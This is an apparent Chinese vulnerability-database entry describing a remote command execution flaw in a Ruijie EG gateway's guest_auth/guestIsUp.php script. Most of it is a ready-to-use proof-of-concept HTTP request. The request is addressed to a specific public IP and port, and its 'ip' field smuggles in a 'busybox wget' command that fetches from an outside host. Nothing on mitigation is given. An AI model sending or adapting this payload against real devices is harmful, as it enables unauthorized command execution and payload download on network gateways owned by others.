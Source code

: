 ```yaml
---
title: '锐捷易网关 远程命令执行'
date: Sat, 19 Sep 2020 07:26:48 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


测试固件版本为 EG\_RGOS11.9(4)B11P1\_EG3200\_install [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_7e1317b2be186fc03b57cf828e7f5e0b.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_7e1317b2be186fc03b57cf828e7f5e0b.jpg) guest\_auth 中的 guestIsUp.php 文件存在问题 [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_041afe1e0e2cc4fa5e74c2055ce54743.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_041afe1e0e2cc4fa5e74c2055ce54743.jpg) 可以明显看出这里可以存在拼接达到命令执行的效果。 构造相应的 poc 可达到命令执行 [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_38e2d2bade6d9aba634eeb05c6c126f6.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_38e2d2bade6d9aba634eeb05c6c126f6.jpg)

#### POC

```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 120.35.11.141:9999
Connection: keep-alive
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://120.35.11.141:9999
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://120.35.11.141:9999/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
mac=1&ip='busybox wget xxxxx:8888' 
```